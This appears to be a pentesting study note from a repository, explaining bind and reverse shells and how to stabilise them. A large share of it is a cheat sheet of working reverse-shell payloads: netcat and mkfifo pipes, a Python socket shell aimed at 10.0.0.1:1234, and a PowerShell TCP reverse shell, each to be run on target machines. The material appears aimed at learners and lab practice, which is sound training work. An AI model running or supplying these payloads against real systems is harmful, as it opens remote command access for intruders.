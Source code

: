 # Shell

Shells are used to interact with CLI(get a better defination from wiki).

When attacking a remote machine we try to use the vulnerability of the service running to a get a reverse shell.

Check this [Shell vs terminal](https://www.geeksforgeeks.org/what-is-terminal-console-shell-and-kernel/#:~:text=After%20writing%20our%20commands%20on,1.&text=2.,-Checks%20the%20syntax)

There are two kinds of shells bind shells and reverse shells.

When we force the target to send a reverse connection and receive it using a listener like netcat than it is called reverse shell. Reverse shell can bypass firewall.

Eg: On attack machine run `nc -lvnp <port>` and in target machine run `nc <attack-ip> <port> -e /bin/bash`. Now you will get a reverse shell.

Bind shells means opening up a port on the target to run our commands.

Eg: On target machine run `nc -lvnp <port> -e "cmd.exe"` and in attack machine run `nc <target-ip> <port>`

Now we got the shell it is very unstable and limited. It can be upgraded using python, socat or rlwrap. Python technique is explained in commands.

For rlwrap just use it with nc like `rlwrap nc -lvnp <port>`

## Common Shell Payloads
For Linux targets
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
For windows powershell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0$sendbyte.Length);$stream.Flush()};$client.Close()"
```
Change the ip and port and run on the target machines

[Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.

Also there is another technique using socat.
